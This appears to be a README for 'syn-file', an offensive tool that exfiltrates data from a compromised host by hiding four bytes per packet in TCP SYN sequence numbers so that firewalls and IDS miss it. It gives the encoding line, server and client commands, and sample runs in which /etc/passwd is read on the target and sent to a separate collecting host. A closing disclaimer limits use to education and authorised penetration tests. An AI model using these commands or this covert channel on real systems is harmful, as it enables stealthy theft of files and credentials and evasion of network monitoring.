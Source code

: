 # syn-file

Exfiltrate data from a compromised target using covert channels.

##Cryptography: covert channels

**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to SYN scanning.

To be faster exfiltriating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section... suspicious!
But I have not seen any tool to deploy it using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###server
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f file.bin
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN=1] [SEQ #= 3a32353a]
#    2 [SYN=1] [SEQ #= 32353a42]
#    3 [SYN=1] [SEQ #= 61746368]
#    4 [SYN=1] [SEQ #= 206a6f62]
#    5 [SYN=1] [SEQ #= 73206461]
#    6 [SYN=1] [SEQ #= 656d6f6e]
#    7 [SYN=1] [SEQ #= 3a2f7661]
#    8 [SYN=1] [SEQ #= 722f7370]
#    9 [SYN=1] [SEQ #= 6f6f6c2f]
#   10 [SYN=1] [SEQ #= 61746a6f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###client (target)
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ nr: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ nr: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ nr: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ nr: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ nr: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ nr: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ nr: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ nr: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ nr: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ nr: 0x6f6f6c2f] [Wrote 74 bytes]
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

